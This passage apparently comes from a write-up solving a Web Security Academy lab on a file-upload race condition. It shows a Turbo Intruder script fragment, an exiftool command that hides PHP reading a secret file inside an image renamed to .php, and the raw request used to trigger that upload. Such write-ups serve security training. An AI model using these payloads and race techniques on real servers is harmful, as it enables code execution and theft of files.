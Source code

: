 ```py
        engine.queue(target.req, None)

        i += 1


def handleResponse(req, interesting):

    # currently available attributes are req.status, req.wordcount, req.length and req.response

    if req.status != 404:

        table.add(req)
```

I set concurrentConnections=80 by trial and error, more was hindering the main upload request so I set to 80. Then I downloaded a random 500KB PNG file from the web and used exiftool to add this code to it and renamed it to a PHP file:

```
exiftool -comment="<?php echo file_get_contents('/home/carlos/secret'); ?>" diamond.php
```

then because of a line of code in vulnerable code in hint:

```php
$imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
```

I changed the name of the file to the longest to increase the file processing (even for a few milliseconds) for `strtolower` function to maximum to save myself some time for race condition:

```
9LKhNJGiTLcMURUGt9a5WulDgvZwvvGDUlnfmPzaglT7VoZcV0lwo4sXK1emCplNsJsf2LU4Wa1arKxmik9iN0pCb4xBhBJ7Id8Bn2Ay6RhWPd2uHyBhhTnCjU7wgdGJjYNBBptx2ky9k0kWHCqpe09UGryPKiaNFugvgEWHpmAOjXxRY7JpH50hbtmw4uZQ3L0k0W2DpYBvcYvgTsXIW2tGiPdN.php
```

this was the biggest name that windows let me to use. then I made the file upload ready but before that, I started burp turbo intruder with the above code on this request as a NULL payload:

```http
GET /files/avatars/9LKhNJGiTLcMURUGt9a5WulDgvZwvvGDUlnfmPzaglT7VoZcV0lwo4sXK1emCplNsJsf2LU4Wa1arKxmik9iN0pCb4xBhBJ7Id8Bn2Ay6RhWPd2uHyBhhTnCjU7wgdGJjYNBBptx2ky9k0kWHCqpe09UGryPKiaNFugvgEWHpmAOjXxRY7JpH50hbtmw4uZQ3L0k0W2DpYBvcYvgTsXIW2tGiPdN.php HTTP/1.1
Host: aca11f781e0864bac09904d8002e00ef.web-security-academy.net
Cookie: session=vPq6ob4pyKBosm73un9VIH47fzVFKaqo
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

